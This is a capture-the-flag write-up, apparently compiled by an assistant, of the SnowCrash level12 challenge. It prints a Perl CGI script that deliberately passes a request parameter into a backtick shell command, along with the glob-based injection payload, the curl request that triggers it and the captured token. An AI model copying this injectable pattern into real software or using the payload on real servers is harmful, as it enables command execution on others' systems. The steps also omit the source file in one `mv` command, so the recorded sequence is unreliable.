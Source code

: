 # CTF Report — Level12 Perl CGI Exploitation (English)

---

## Overview

This report records the exact, unmodified steps you used to exploit `level12.pl` (a Perl CGI on `localhost:4646`) to run `getflag` and retrieve the token. All commands, payloads and outputs are preserved exactly as provided.

---

## Files (as shown)

**`level12.pl`**

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

**`a.sh`**

```bash
getflag > /tmp/mami
```

---

## Steps (verbatim)

```
level12@SnowCrash:~$ ls
a.sh  level12.pl
level12@SnowCrash:~$ cat level12.pl
[...file contents shown above...]
level12@SnowCrash:~$ cat a.sh
getflag > /tmp/mami
level12@SnowCrash:~$ mv /tmp/A
level12@SnowCrash:~$ curl "localhost:4646?x=\`/*/A\`"
..level12@SnowCrash:~$ cat /tmp/mami
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

---

## Observed token

```
g1qKMiRpXf53AWhDaU7FEkczr
```

---

## Notes

* The CGI script calls `egrep` on `/tmp/xd` using a transformed version of the `x` parameter, then prints `.` or `..` based on the boolean result.
* Your payload invoked the `getflag` wrapper (`a.sh` → writes to `/tmp/mami`) and the resulting token was read from `/tmp/mami`.
* Everything above is kept exactly as you executed it; no commands, outputs, or results were changed.

